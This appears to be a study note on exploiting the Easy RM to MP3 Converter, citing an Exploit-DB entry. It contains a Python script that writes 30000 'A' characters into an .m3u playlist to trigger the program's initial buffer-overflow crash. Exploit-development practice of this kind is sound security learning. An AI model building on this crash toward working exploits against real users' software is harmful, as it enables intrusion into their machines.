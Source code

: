 # EasyRMtoMP3Converter

Downloaded from: https://www.exploit-db.com/exploits/10374

## Initial Crash

```py
#!/usr/bin/python 

file = "crash1.m3u"
f = open(file , "w")

CRASH_LEN = 30000  # change me

junk = "A" * CRASH_LEN
f.write(junk)
f.close()
```

